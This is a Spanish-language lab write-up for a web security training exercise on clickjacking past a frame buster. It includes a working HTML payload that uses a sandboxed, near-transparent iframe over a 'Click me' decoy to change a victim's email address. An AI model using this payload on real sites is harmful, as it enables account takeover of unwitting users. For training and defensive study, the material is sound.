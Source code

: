 # 03 Lab: Clickjacking with a frame buster script

```jsx
This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: wiener:peter
```

Una solución eficaz para los atacantes contra los eliminadores de marcos es utilizar el iframe con el atributo `sandbox` de HTML5. Cuando se configura con los valores `allow-forms`o `allow-scripts`  y `allow-top-navigation` no se encuentra definido, el script del eliminador de marcos puede neutralizarse, ya que el iframe no puede comprobar si es o no la ventana superior:

```jsx
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>

```

En base a estos conceptos, vamos a usar esta plantilla

```jsx
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

```

Adaptemoslo al ejericio anterior

```jsx
<style>
    iframe {
        position:relative;
				width: 700px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:75px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0ac70058030a1a3182d389af00c000bf.web-security-academy.net/my-account?email=delhacker@attacker-website.com"></iframe>
```

![image.png](03%20Lab%20Clickjacking%20with%20a%20frame%20buster%20script%20c8287080b66444f5b86132a758815594/image.png)